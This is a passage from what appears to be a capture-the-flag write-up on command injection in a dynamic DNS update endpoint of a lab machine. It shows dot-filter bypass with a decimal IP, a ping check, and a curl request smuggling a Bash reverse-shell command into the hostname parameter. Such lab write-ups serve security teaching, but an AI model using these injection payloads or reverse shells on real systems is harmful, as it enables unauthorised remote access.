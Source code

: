 I chose `whoami` because it was more likely to work returning a single word vs `id`. It seems to have worked. If the web process is running as www-data, then `www-data.no-ip.htb` would resolve to my IP. It does:

```

oxdf@parrot$ dig +short www-data.no-ip.htb @10.10.10.244
10.10.14.8

```

That’s proof of command injection.

#### ping

An easier check would be to try `ping`. The only challenge is that I can’t use `.`. That’s easily bypassed knowing that an IP is just a four-byte integer. It’s standard to represent it as four ints 0-255 combined with `.`, but almost all systems will handle the int value as well. [Cyberchef](https://gchq.github.io/CyberChef/#recipe=Change_IP_format('Dotted%20Decimal','Decimal')&input=MTAuMTAuMTQuOA) has a Change IP Format recipe that works nicely here:

![image-20210613144052430](https://0xdfimages.gitlab.io/img/image-20210613144052430.png)

Dropping that in, with `tcpdump` watching locally, I can `ping`:

```

oxdf@parrot$ curl -G --data-urlencode 'hostname=$(ping -c 1 168431112).no-ip.htb' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
911 [nsupdate failed]

```

At `tcpdump`:

```

oxdf@parrot$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:41:19.902625 IP 10.10.10.244 > 10.10.14.8: ICMP echo request, id 1, seq 1, length 64
14:41:19.902652 IP 10.10.14.8 > 10.10.10.244: ICMP echo reply, id 1, seq 1, length 64
14:41:19.929024 IP 10.10.10.244 > 10.10.14.8: ICMP echo request, id 2, seq 1, length 64
14:41:19.929042 IP 10.10.14.8 > 10.10.10.244: ICMP echo reply, id 2, seq 1, length 64

```

That’s actually two pings, so the injection must have taken place twice.

### Shell

To get a shell, I’ll use the standard Bash reverse shell, just using my IP in decimal form:

```

oxdf@parrot$ curl -G --data-urlencode 'hostname=$(/bin/bash -c "bash -i >& /dev/tcp/168431112/443 0>&1").no-ip.htb' 'http://dynadns:sndanyd@10.10.10.244/nic/update'

```
